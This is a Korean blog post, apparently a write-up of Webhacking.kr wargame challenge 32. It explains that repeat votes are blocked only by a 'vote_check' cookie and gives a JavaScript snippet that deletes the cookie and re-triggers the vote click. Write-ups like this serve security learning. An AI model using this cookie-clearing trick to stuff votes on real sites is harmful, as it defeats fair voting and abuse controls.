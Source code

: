 ```yaml
---
layout: post
title: "Webhacking.kr 32번 문제"
description: ""
date: 2017-05-11
tags: []
comments: true
share: true
---
```


32 번 문제는 150 스코어의 문제입니다.

문제를 보면, 100명의 리스트가 존재합니다.

하단에 입장에 버튼이있는데 해당 버튼을 누르면 100명의 리스트에 제 계정이 추가됩니다.  
  
이후 본인 계정에 클릭을하게되면 vote up 이 됩니다.  
이후 스코어 1점이 추가되는데, 추가 이후에 추천을 누르면 `no` 메세지와 함께 추천이 안됩니다.  
  
요소를 보니 클릭 시, 아래와 같은 이벤트가 발생합니다.  
location.href='?hit='본인 계정'

  
추천과 동시에 `vote_check` 쿠키가 하나 생성됩니다.

보아하니 쿠키로 구분하여 추천 여부를 판별하는 것 같습니다.  
  
일단 저는 아래와 같이 간단하게 스크립트를 하나 작성했습니다.  
코드의 내용은 `vote_check` 라는 쿠키를 지운 후, 추천 요청을 하는 것 입니다.  
  
특성 상, 이벤트가 발생하면 페이지가 새로 로드되기 때문에 저는 사용하고있는 크롬 확장 프로그램을 통하여 해당 스크립트를 기입해 문제를 해결
했습니다.

  

하단에 소스 코드를 기재했습니다.

코드 상 셀렉트 부분을 참고하시면

onclick^="location.href='+"'?hit=hax0r'"+'" 이라 되어있는데, 여기서 hax0r 을 보인 계정으로
치환하시면 됩니다.

hax0r 은 제 계정이에여.

  

![](/assets/images/posts/743/2463304A591415CB017CFE.JPEG)

  

    var delCookie = function(name) {    document.cookie = name + '=;expires=Thu, 01 Jan 1970 00:00:01 GMT;';};/* Node Select 를 위해 Jquery 비동기 로드 */(function () {    function loadScript(url, callback) {        var script = document.createElement("script")        script.type = "text/javascript";        if (script.readyState) { //IE            script.onreadystatechange = function () {                if (script.readyState == "loaded" || script.readyState == "complete") {                    script.onreadystatechange = null;                    callback();                }            };        } else { //Others            script.onload = function () {                callback();            };        }        script.src = url;        document.getElementsByTagName("head")[0].appendChild(script);    }    loadScript("https://ajax.googleapis.com/ajax/libs/jquery/1.6.1/jquery.min.js", function () {             console.log('jquery loaded');            /* 계정 vote */var voteUpMe = function(e) {  delCookie('vote_check');  $('tr[onclick^="location.href='+"'?hit=hax0r'"+'"]').trigger('click');}     });})();

  

